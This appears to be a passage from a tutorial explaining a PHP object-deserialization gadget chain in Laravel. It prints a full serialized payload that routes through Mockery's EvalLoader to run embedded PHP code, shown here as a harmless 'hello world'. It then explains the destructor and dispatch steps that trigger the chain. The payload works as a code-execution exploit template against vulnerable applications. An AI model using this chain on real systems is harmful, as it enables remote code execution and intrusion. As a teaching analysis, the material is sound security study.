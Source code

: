 ```php
O:29:"Illuminate\Support\MessageBag":2:{
    s:11:"*messages";
    a:0:{}
    s:9:"*format";
    O:40:"Illuminate\Broadcasting\PendingBroadcast":2:{
        s:9:"*events";
        O:25:"Illuminate\Bus\Dispatcher":1:{
            s:16:"*queueResolver";
            a:2:{
                i:0;
                O:25:"Mockery\Loader\EvalLoader":0:{}
                i:1;
                s:4:"load";
            }
        }
        s:8:"*event";
        O:38:"Illuminate\Broadcasting\BroadcastEvent":1:{
            s:10:"connection";
            O:32:"Mockery\Generator\MockDefinition":2:{
                s:9:"*config";
                O:35:"Mockery\Generator\MockConfiguration":1:{
                    s:7:"*name";
                    s:7:"abcdefg";
                }
                s:7:"*code";
                s:35:"<?php echo 'hello world'; exit; ?>";
            }
        }
    }
}
```


The outer object is a `Illuminate\Support\MessageBag` containing a `Illuminate\Broadcasting\PendingBroadcast`. The `PendingBroadcast` class has a destructor that will be automatically called during deserialisation.

```php
// class: Illuminate/Broadcasting/PendingBroadcast
public function __destruct()
{
    $this->events->dispatch($this->event);
}
```

Go back up to the serialized payload, you’ll see it is setup so that “events” is a `\Illuminate\Bus\Dispatcher` object and “event” is a `\Illuminate\Broadcasting\BroadcastEvent` object. So in other words the dispatch function of the `Dispatcher` class will be called. That function looks like this:

```php
// class: Illuminate/Bus/Dispatcher
public function dispatch($command)
{
   if ($this->queueResolver && $this->commandShouldBeQueued($command)) {
        return $this->dispatchToQueue($command);
   }

   return $this->dispatchNow($command);
}
```

